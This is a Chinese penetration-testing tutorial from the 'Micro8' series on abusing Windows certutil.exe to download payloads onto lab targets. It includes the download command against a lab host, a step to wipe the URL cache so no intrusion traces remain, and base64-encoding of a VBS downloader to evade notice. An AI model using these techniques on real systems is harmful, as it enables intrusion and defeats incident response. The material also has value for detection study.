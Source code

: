 ```yaml
---
title: 38、certutil一句话下载payload
date: 2019-09-21 19:05:00
comments: true
categories: 
 - Micro8系列
---
```



### certutil微软官方是这样对它解释的：
> Certutil.exe是一个命令行程序，作为证书服务的一部分安装。您可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件以及验证证书，密钥对和证书链。  

url:https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc732443(v=ws.11)

但是近些年好像被玩坏了。

**靶机：**windows 2003 windows 7

```code
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt
```
![](../do/media/d5ad3e478f8b4df59283786537e748f6.jpg)

默认下载为bin文件。但是不影响在命令行下使用。  
![](../do/media/346d182aad2fafe6b894d0b08c994e0e.jpg)

certutil.exe 下载有个弊端，它的每一次下载都有留有缓存，而导致留下入侵痕迹，所以每次下载后，**需要马上执行如下**：

```code
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt delete
```

![](../do/media/1e7636c8225aaf3cd99d81bd44afeff9.jpg)

而在应急中certutil也是常用工具之一，来对比文件hash，来判断疑似文件。

**Windows 2003：**  
![](../do/media/4dd859482e45ae5632c0302798c69329.jpg)

**Windows 7：**  
![](../do/media/edec57e27ee820bc6c423481454ee6fc.jpg)

### certutil的其它高级应用：
```code
C:\>certutil -encode c:\downfile.vbs downfile.bat
```
![](../do/media/cb14f787f5f65099047d739544e41dbc.jpg)

**file:downfile.bat**  

![](../do/media/b659cc22fd3ef3bc8931857f8a255c44.jpg)

**解密：**  
![](../do/media/bdb9cc7f59e382ddb3e607e704bea481.jpg)

**file:downfile.txt**  
![](../do/media/f0e6d3203cc514f0a7c611453246da1e.jpg)

>后者的话：powershell内存加载配合certutil解密是一件非常有趣的事情。会在未来的系列中讲述。

>   Micropoor
